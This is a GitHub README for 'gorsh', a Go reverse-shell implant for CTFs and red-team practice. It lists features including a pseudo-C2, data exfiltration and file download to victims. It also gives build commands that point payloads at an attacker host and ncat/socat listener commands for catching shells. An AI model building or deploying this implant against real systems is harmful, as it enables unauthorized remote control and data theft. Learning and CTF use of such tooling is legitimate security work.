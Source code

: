 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/x51XH6K.png)
![](https://i.imgur.com/pvCmHYa.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes
Changes after fork:

* Uses tmux as a pseudo-C2-like interface, creating a new window with each agent callback
* zipcat: zip > base64 > cat for data small/medium data exfil (zstd/x64 or gzip/x86)
* Download files to victim with HTTP on all platform
* Download files to victim with SMB on all windows
* Situational Awareness output on new shells
* Removed Meterpreter functionality
* Removed Shellcode execution
* Remove the use of passing power/shell commands at the gorsh prompt
* Add common file operation commands that use go instead of power/shell

__NOTICE__: Requires go 1.11.
Also, the zStandard compression library in this project uses `cgo` and thus you'll need the mingw
compiler on Linux if you want to compile the Windows agents. It also only supports GOARCH=amd64, so
32-bit agent use a less efficient gzip algo. 

And so does the darwin64 until I can figure out a sane way to compile.

Roadmap:

- [ ] Potentially add reverse socks5 proxy functionality - Using
[Numbers11/rvprxmx](https://github.com/Numbers11/rvprxmx)
- [ ] Recon module for analyzing things like tasks, services, and host-based protections
- [ ] Dotnet integration so `shell` drops into a Runspace with System.Management.Automation. 
      Bacially PowerShell without PowerShell.
- [ ] Fix CGO compilation for macos64 so it uses zstd for compression instead of gzip


## Getting started

Because this project uses `cgo` and tries to cross-compile for linux/windows/macos, you'll need a
windows compiler. I've only tried this on Debian, but since go1.11, you just need mingw installed.

```sh
apt get install gcc-mingw-w64 binutils-mingw-w64-x86-64
```
That's it as far cross-compiling to Windows64 goes. While it is often require during
cross-compilation to set variables like $CC, $CXX, $AS, $LD, ... it is not required as go1.11
linux/amd64 picks up on the presence of the toolchain it needs.

Make sure to read the Makefile. It gives you a good idea of what's going on.

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).

### Building the payload

First, you'll need to generate your certs:

```bash
$ make depends
```

You can set the following environment variables to compile using `go build`:

- `GOOS`: the target OS
- `GOARCH`: the target architecture
- `LHOST`: the attacker IP or domain name
- `LPORT`: the listener port

See possible`GOOS`and`GOARCH`variables [here](https://golang.org/doc/install/source#environment).

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
#or
$ make all LHOST=example.com LPOST=443
```

[Troubleshooting](./DEVELOPING)


## Catching the shell

The `make listen` command kicks off a tmux session and creates new windows on every new connection.
Feed it a port number as LPORT.

```sh
make listen LPORT=8080

# once a client connects
tmux attach -t GORSH
```

Shells can also be caught without tmux using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the tool's shell.
Type `help` to show what commands are supported.

## Credits

* Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* mzpqnxow for figuring out my x-compilation and dependancy problems and troubleshooting guide
